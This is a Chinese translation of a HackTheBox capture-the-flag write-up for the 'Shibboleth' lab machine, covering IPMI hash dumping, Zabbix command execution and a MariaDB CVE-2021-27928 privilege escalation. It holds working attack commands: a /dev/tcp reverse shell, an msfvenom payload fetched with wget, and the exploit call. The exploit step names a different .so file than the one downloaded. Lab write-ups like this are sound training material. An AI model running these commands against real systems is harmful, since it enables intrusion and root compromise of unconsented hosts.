







# 来自 HackTheBox 的 Shibboleth 详细演练

> 原文：<https://infosecwriteups.com/shibboleth-from-hackthebox-detailed-walkthrough-97c7055cb94d?source=collection_archive---------1----------------------->

展示完成盒子所需的所有工具和技术。

# 机器信息


HackTheBox 的 Shibboleth

Shibboleth 是 HackTheBox 上的一台中型机器。在一些初始枚举之后，我们找到了一个安装 Zabbix 的登录页面。使用 Metasploit，我们转储容易被 JohnTheRipper 破解的用户哈希。通过访问 Zabbix 仪表板，我们发现它容易受到远程代码执行的攻击。我们用它来获得一个外壳，在这个外壳上我们发现了一个易受攻击的 MariaDB 版本。我们使用一个公共漏洞来上传一个有效载荷，这给了我们一个根外壳来完成这个盒子。

所需的技能是查点技术和研究公共利用的知识。学到的技能是使用 Metasploit 进行开发和有效负载创建。

[](https://www.hackthebox.com/home/machines/profile/410) [## Shibboleth —破解盒子::渗透测试实验室

### 登录 Hack The Box 平台，让您的笔测试和网络安全技能更上一层楼！

www.hackthebox.com](https://www.hackthebox.com/home/machines/profile/410) 

# 初步侦察

像往常一样，让我们从 Nmap 开始:

```
┌──(root💀kali)-[~/htb/shibboleth]
└─# ports=$(nmap -p- --min-rate=1000 -T4 10.10.11.124 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)

┌──(root💀kali)-[~/htb/shibboleth]
└─# nmap -p$ports -sC -sV -oA shibboleth 10.10.11.124
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-28 11:47 GMT
Nmap scan report for 10.10.11.124
Host is up (0.026s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41
|_http-title: Did not follow redirect to http://shibboleth.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: shibboleth.htb
```

有意思。我们在这个机器上只有一个使用 TCP 的开放端口，如果我们在这里没有任何进展，那么记得再次扫描 UDP。是的，我以前也曾被这个问题困扰过，所以现在它是这个过程的一部分！

我们看到了主机名，所以在开始之前，让我们将它添加到 hosts 文件中:

```
┌──(root💀kali)-[~/htb/shibboleth]
└─# echo "10.10.11.124 shibboleth.htb" >> /etc/hosts
```

我们来看看 80 端口的网站:


端口 80 上的网站

环顾网站，它主要是一个模板，没有任何真正的兴趣。唯一值得注意的是在页脚:


网页页脚

# Gobuster

没什么可说的，我尝试了子域枚举:



搜索子域的 Gobuster

我应该切换到 fuff 或 wfuzz 进行 vhost 搜索，反正有一个很长的列表要浏览，所以只需 grep 我们感兴趣的状态代码:

```
┌──(root💀kali)-[~/htb/shibboleth]
└─# cat results.txt | grep "Status: 20"
Found: monitoring.shibboleth.htb (Status: 200) [Size: 3686]
Found: zabbix.shibboleth.htb (Status: 200) [Size: 3686]
Found: monitor.shibboleth.htb (Status: 200) [Size: 3686]
```

我们发现了三个子域名，其中一个叫做 zabbix，在网页页脚提到过。让我们将它们都添加到我们的 hosts 文件中:

```
┌──(root💀kali)-[~/htb/shibboleth]
└─# echo "10.10.11.124 monitoring.shibboleth.htb zabbix.shibboleth.htb monitor.shibboleth.htb" >> /etc/hosts
```

# Zabbix 登录页面

在浏览器中，我们发现这三个页面都指向同一个登录页面:



Zabbix 登录页面

我以前没听说过 Zabbix。环顾四周，发现官方网站[在这里](https://www.zabbix.com/)，维基页面[在这里](https://en.wikipedia.org/wiki/Zabbix)，它描述为:

```
Zabbix is an open-source monitoring software tool for diverse IT components, including networks, servers, virtual machines (VMs) and cloud services.
```

# IPMI 调查

默认凭据在登录页面上不起作用，因此回到 nmap:

```
┌──(root💀kali)-[~/htb/shibboleth]
└─# nmap -sU --min-rate=1000 -T4 10.10.11.124
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-28 12:36 GMT
Nmap scan report for shibboleth.htb (10.10.11.124)
Host is up (0.026s latency).
Not shown: 986 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
17/udp    closed qotd
623/udp   open   asf-rmcp
<SNIP>
Nmap done: 1 IP address (1 host up) scanned in 7.76 seconds
```

正如所料，有一个 UDP 端口开放，623 是一个众所周知的 IPMI 管理。如果你不熟悉的话，这里有一个很好的描述。看看 HackTricks，有一篇文章[我们可以用它来枚举端口。](https://book.hacktricks.xyz/pentesting/623-udp-ipmi)

首先让我们看看 IPMI 运行的是什么版本:

```
┌──(root💀kali)-[~/htb/shibboleth]
└─# nmap -sU --script ipmi-version -p 623 shibboleth.htb
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-28 17:10 GMT
Nmap scan report for shibboleth.htb (10.10.11.124)
Host is up (0.021s latency).

PORT    STATE SERVICE
623/udp open  asf-rmcp
| ipmi-version:
|   Version:
|     IPMI-2.0
|   UserAuth: password, md5, md2, null
|   PassAuth: auth_msg, auth_user, non_null_user
|_  Level: 1.5, 2.0
```

IPMI 的第二版有一些严重的安全问题，[这个](http://fish2.com/ipmi/remote-pw-cracking.html)是一个很好的读物，它解释了我们可以绕过认证。

我们可以通过使用[这个](https://github.com/alexoslabs/ipmitest)脚本来检查密码 0 漏洞:



下载 ipmitest 脚本

现在对着盒子运行:



IPMITest 正在对机器运行

确认主机易受攻击后，我们可以求助于[这篇关于使用 Metasploit 转储用户哈希的](https://www.rapid7.com/blog/post/2013/07/02/a-penetration-testers-guide-to-ipmi/) Rapid7 帖子:

```
┌──(root💀kali)-[~/htb/shibboleth]
└─# msfdb start
[+] Starting database

┌──(root💀kali)-[~/htb/shibboleth]
└─# msfconsole -nqx "use scanner/ipmi/ipmi_dumphashes; set RHOSTS 10.10.11.124; set RPORT 623; set OUTPUT_JOHN_FILE out.john; exploit"
RHOSTS => 10.10.11.124
RPORT => 623
OUTPUT_JOHN_FILE => out.john
[+] 10.10.11.124:623 - IPMI - Hash found: Administrator:86466b970223000067982d8966a40875c1ece9a0799cef734640ca4dfe646e76990b8a3b7e28ac51a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:f3006eb7f7bf3fcdf9a253ba31144abb49b65e77
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

# JohnTheRipper

我们有管理员散列并将其输出为 JohnTheRipper 格式，让我们来破解它:

```
┌──(root💀kali)-[~/htb/shibboleth]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt out.john
Using default input encoding: UTF-8
Loaded 1 password hash (RAKP, IPMI 2.0 RAKP (RMCP+) [HMAC-SHA1 256/256 AVX2 8x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovepumkinpie1  (10.10.11.124 Administrator)
1g 0:00:00:01 DONE (2021-11-28 17:43) 0.8928g/s 6670Kp/s 6670Kc/s 6670KC/s in_199..iargxe
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

# Zabbix 仪表板

几秒钟后我们就有了密码。现在我们可以登录到 Zabbix 仪表板:



Zabbix 仪表板

环顾仪表板，没有太多的设置，但搜索漏洞时，我发现了一个简单的方法来执行 Zabbix 文档中的命令[这里](https://www.zabbix.com/documentation/current/manual/config/items/itemtypes/zabbix_agent):

```
system.run[command,<mode>]
Run specified command on the host.
command - command for execution
mode - possible values:
wait - wait end of execution (default),
nowait - do not wait

Example:
⇒ system.run[ls -l /] → detailed file list of root directory.
```

为了利用这一点，我们需要向服务器添加一个新项目，并安排它的运行时间。首先单击配置，然后单击主机，然后单击项目:



Zabbix 主机

# 反向外壳

单击最右边的 Create Item 按钮，然后使用这个简单的 bash reverse shell 作为我们将要运行的命令:

```
system.run[/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.62/1337 0>&1',nowait]
```

给你的物品起个名字，然后把我们的命令粘贴到关键字段:



Zabbix 管理控制台中的项目名称

现在启动 netcat 监听并等待 shell 连接:

```
┌──(root💀kali)-[~/htb/shibboleth]
└─# nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.10.14.62] from (UNKNOWN) [10.10.11.124] 44692
bash: cannot set terminal process group (1132): Inappropriate ioctl for device
bash: no job control in this shell
zabbix@shibboleth:/$
```

首先让我们得到一个合适的外壳:

```
zabbix@shibboleth:/$ python3 -c 'import pty;pty.spawn("/bin/bash")'
zabbix@shibboleth:/$ ^Z
zsh: suspended  nc -nlvp 1337
┌──(root💀kali)-[~/htb/shibboleth]
└─# stty raw -echo; fg
[1]  + continued  nc -nlvp 1337
zabbix@shibboleth:/$ stty rows 61 cols 237
```

现在看看我们是谁:

```
zabbix@shibboleth:/$ whoami
zabbix
zabbix@shibboleth:/$ id
uid=110(zabbix) gid=118(zabbix) groups=118(zabbix)
zabbix@shibboleth:/$ cat /etc/passwd | grep zabbix
zabbix:x:110:118::/var/lib/zabbix/:/usr/sbin/nologin
```

所以我们是作为无法登录的服务帐户连接的。在/home 中，我们看到只有一个用户:

```
zabbix@shibboleth:/$ ls -ls /home
4 drwxr-xr-x 4 ipmi-svc ipmi-svc 4096 Nov 28 16:35 ipmi-svc
```

# 用户标志

尝试使用我们用来登录仪表板的相同密码:

```
zabbix@shibboleth:/$ su ipmi-svc
Password:
ipmi-svc@shibboleth:/$
```

现在我们可以获取用户标志:

```
ipmi-svc@shibboleth:~$ cat user.txt
e90fa80a610ef639e26119e93a143a50
```

我发现 mysql 作为 root 在机器上运行:

```
ipmi-svc@shibboleth:~$ ps -ef | grep mysql
root       92419       1  0 19:10 ?        00:00:00 /bin/sh /usr/bin/mysqld_safe
root       92542   92419  0 19:10 ?        00:00:52 /usr/sbin/mysqld --basedir=/usr --datadir=/var/lib/mysql --plugin-dir=/usr/lib/x86_64-linux-gnu/mariadb19/plugin --user=root --skip-log-error --pid-file=/run/mysqld/mysqld.pid --socket=/var/run/mysqld/mysqld.sock
root       92543   92419  0 19:10 ?        00:00:00 logger -t mysqld -p daemon error
ipmi-svc  124084  122951  0 22:07 pts/0    00:00:00 grep --color=auto mysql
```

还发现它在本地监听默认端口 3306:

```
ipmi-svc@shibboleth:~$ netstat -ano | grep 3306
tcp    0   0 127.0.0.1:3306   0.0.0.0:*   LISTEN  off (0.00/0/0)
```

环顾四周，我在/etc 中找到了 zabbix 安装，其中有一个包含凭证的服务器配置文件:

```
ipmi-svc@shibboleth:~$ cat /etc/zabbix/zabbix_server.conf | grep 'DBName\|DBUser\|DBPassword'
### Option: DBName
# DBName=
DBName=zabbix
### Option: DBUser
# DBUser=
DBUser=zabbix
### Option: DBPassword
DBPassword=bloooarskybluh
```

# 关系型数据库

我们现在可以登录 mysql 了:

```
ipmi-svc@shibboleth:~$ mysql -u zabbix -p
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 2172
Server version: 10.3.25-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04
Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
MariaDB [(none)]>
```

我们看到我们有 MariaDB，它是 mysql 的一个分支，更多信息[在这里](https://en.wikipedia.org/wiki/MariaDB)。搜索 MariaDB 的 10.3.25 版本，我们发现它来自 2020 年，存在命令执行漏洞。[CVE-2021–27928](https://www.cvedetails.com/cve/CVE-2021-27928)容易开采。[这个](https://github.com/Al1ex/CVE-2021-27928) GitHub repo 和[这个](https://packetstormsecurity.com/files/162177/MariaDB-10.2-Command-Execution.html)帖子有我们需要利用的所有信息。

# MSF 毒液有效载荷

首先用 MSFVenom 创建我们的漏洞:

```
┌──(root💀kali)-[~/htb/shibboleth]
└─# msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.62 LPORT=4444 -f elf-so -o pencer.so
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf-so file: 476 bytes
Saved as: pencer.so
```

在 Kali 上启动一个网络服务器，这样我们就可以获取文件:

```
┌──(root💀kali)-[~/htb/shibboleth]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

拉过来:

```
ipmi-svc@shibboleth:/dev/shm$ wget http://10.10.14.62/pencer.so
--2021-11-28 22:47:14--  http://10.10.14.62/pencer.so
Connecting to 10.10.14.62:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 476 [application/octet-stream]
Saving to: ‘pencer.so’
pencer.so          100%[===========>]     476  --.-KB/s    in 0s
2021-11-28 22:47:14 (81.9 MB/s) - ‘pencer.so’ saved [476/476]
```

# 权限提升

在 Kali 上启动 netcat 监听器，然后使用 mysql 在机器上执行漏洞利用:

```
ipmi-svc@shibboleth:/dev/shm$ mysql -u zabbix -p -e 'SET GLOBAL wsrep_provider="/dev/shm/CVE-2021-27928.so";'
Enter password:
ERROR 2013 (HY000) at line 1: Lost connection to MySQL server during query
```

# 根标志

切换回 Kali，看看我们有一个根壳。让我们抓住旗子:

```
┌──(root💀kali)-[~/htb/shibboleth]
└─# nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.62] from (UNKNOWN) [10.10.11.124] 33088id
uid=0(root) gid=0(root) groups=0(root)cat /root/root.txt
064275d7a96d3f300917a45b59bf97b6
```

完成了。下次见。

如果你喜欢这篇文章，请给我一两个掌声(这是免费的！)

推特—[https://twitter.com/pencer_io](https://twitter.com/pencer_io)
网站— [https://pencer.io](https://pencer.io/)

*原载于 2022 年 4 月 25 日*[*https://pencer . io*](https://pencer.io/ctf/ctf-htb-shibboleth/)*。*